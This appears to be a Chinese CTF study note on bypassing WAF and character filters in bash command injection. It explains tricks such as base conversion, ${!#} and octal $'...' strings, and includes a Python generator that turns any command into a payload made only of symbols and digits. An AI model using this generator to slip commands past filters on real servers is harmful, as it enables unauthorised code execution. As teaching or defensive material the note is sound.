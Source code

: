 tags:: RCE, CTF/Shell/WAF绕过

- # 主要套路
	- 使用进制转换计算出数字
	- 使用数字构造出任意八进制形式的字符串
	- 使用`bash<<<'bash<<<字符串'`将字符串从八进制形式转为正常形式并执行
- # bash特性
	- 数字
		- bash可以通过`$((进制#数值))`的方式转换进制，比如说`$((2#100))`表示4
			- 其中进制和数值可以是其他的`$(())`，也可以是其他的字符串拼接而成
		- bash可以使用移位操作`1<<1`产生数字2
		- bash中`${#}`是一个值为0的变量，通过求长度`${##}`可以得到数字1
	- 字符串
		- bash中可以使用八进制表示字符串，比如`$'\154\163'`
			- 也就是`$'`加上以`\`开头的八进制，结尾加上`'`
	- 变量名
		- bash中`${!xxx}`可以将一个变量的值作为变量名
			- 比如如果`def=abc`且`abc=123`那`${!def}`等价于`${abc}`，其结果是123。
			- 所以`${!#}`取的是`${0}`，也就是`bash`字符串
			- 所以可以通过设置`__=$(())`的方式通过`${!__}`获取bash字符串
	- 命令执行
		- bash中可以通过`$0<<<"echo 1"`来执行命令
			- 可以使用`$0<<<$0\<\<\<"echo 1"`让bash二次解析，避免将整个字符串识别成命令名。
- # payload生成
	- ```python
	  def number(n):
	      if n == 0:
	          return "$((${!#}))"
	      elif n == -1:
	          return "$((~{n0}))".format(n0=number(0))
	      elif n == 1:
	          return "$((~$(($((~{n0}))$((~{n0}))))))".format(n0=number(0))
	      elif isinstance(n, int) and n < 0:
	          return "$(({}))".format("".join(number(-1) for _ in range(-n)))
	      elif isinstance(n, int) and n > 0:
	          return "$((~{}))".format(number(-n - 1))
	      else:
	          raise NotImplemented()
	  
	  
	  def bash_str_bang():
	      return "${!#}"
	  
	  def bash_str_dollarzero():
	      return "$0"
	  
	  def bash_str():
	      return bash_str_dollarzero()
	  
	  def binary_str(s):
	      """经过一次解析后得到只有0和1的字符串"""
	      assert all(c in "01" for c in s)
	      return s.replace("1", number(1)).replace("0", number(0))
	  
	  
	  def num(n: int):
	      """经过一次解析后得到一个数字"""
	      return f"$(($(({number(1)}<<{number(1)}))#{binary_str(bin(n)[2:])}))"
	  
	  
	  def string_by_hex(s: str):
	      d = {
	          "0": "0",
	          "1": "${##}",
	          "2": "$((${##}<<${##}))",
	          "3": "$(($((${##}<<${##}))#${##}${##}))",
	          "4": "$((${##}<<$((${##}<<${##}))))",
	          "5": "$(($((${##}<<${##}))#${##}0${##}))",
	          "6": "$(($((${##}<<${##}))#${##}${##}0))",
	          "7": "$(($((${##}<<${##}))#${##}${##}${##}))",
	      }
	      payload = "$\\'"
	      for c in s:
	          c = oct(ord(c))[2:].zfill(3)
	          payload += "\\\\" + "".join(d[dig] for dig in c)
	      return payload + "\\'"
	  
	  
	  def string_by_bin(s: str):
	      return "$\\'" + "".join(["\\\\" + num(int(oct(ord(c))[2:])) for c in s]) + "\\'"
	  
	  
	  def string(s: str):
	      """生成一个payload, 其经过两次解析后得到原有的字符串
	      经过一次解析：
	          "$\\'" -> "$'"
	          "\\\\" -> "\\"
	          数字payload -> 实际的数字
	          整个payload变成`$'\000\000'`的形式
	  
	      Args:
	          s (str): payload的值
	  
	      Returns:
	          str: payload
	      """
	      return string_by_hex(s)
	  
	  
	  def payload(cmd):
	      return "{zero}<<<{zero}\\<\\<\\<{cmd}".format(zero=bash_str(), cmd=string(cmd))
	  
	  
	  def echo_payload(cmd):
	      return "echo {zero}\\<\\<\\<{cmd}".format(zero=bash_str(), cmd=string(cmd))
	  
	  
	  print(payload("echo 114514"))
	  ```
-